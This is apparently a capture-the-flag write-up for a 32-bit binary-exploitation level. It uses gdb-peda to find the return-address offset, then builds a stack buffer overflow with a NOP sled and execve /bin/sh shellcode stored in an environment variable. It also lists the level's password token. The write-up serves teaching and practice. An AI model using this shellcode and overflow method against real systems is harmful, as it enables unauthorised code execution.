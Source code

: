 # Level04 - 32 bits -

## Local script usage

Requirements:

- `gdb-peda`
- `getenv32`

You can setup requirements with the script: [scripts/installUtils.sh](../../scripts/installUtils.sh)

```shell
./scripts/installUtils.sh
./level04/Ressources/main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level04 | `kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf` |
| level05 | ``                                         |

## Steps to resolve on VM

See our assembly interpretation in [source file](../source.c)

```shell
pattern create 200 input
run < <(cat /tmp/input)
  Invalid $PC address: 0x71414154
  Stopped reason: SIGSEGV
  0x71414154 in ?? ()

pattern search
  EIP+0 found at offset: 156

python -c 'print "A" * 156 + "BBBB"'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

x/x $esp+0x20 # buf
0xffffd660:     0x080482e0

SHELLCODE="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * (156-100-23) + "\xe0\x82\x04\x08"'


export SHELLCODE=`python -c "print '\x90' * 0xff + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"`

./getenv32 SHELLCODE ~/level04
0xffffd755
python -c 'print "A" * 156 + "\x55\xd7\xff\xff"' > /tmp/exploit04

p /x 0xffffd755 + 100
$2 = 0xffffd7b9

python -c 'print "A" * 156 + "\xb9\xd7\xff\xff"' > /tmp/exploit04
```

## Sources

### ASM

- [What does the “rep stos” x86 assembly instruction sequence do?](https://stackoverflow.com/questions/3818856/what-does-the-rep-stos-x86-assembly-instruction-sequence-do)

### C

- [Man fork](https://linux.die.net/man/3/fork)
- [Man gets](https://linux.die.net/man/3/gets)
- [Man kill](https://linux.die.net/man/3/kill)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man prctl](https://linux.die.net/man/2/prctl)
- [Man ptrace](https://linux.die.net/man/2/ptrace)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man wait](https://linux.die.net/man/2/wait)
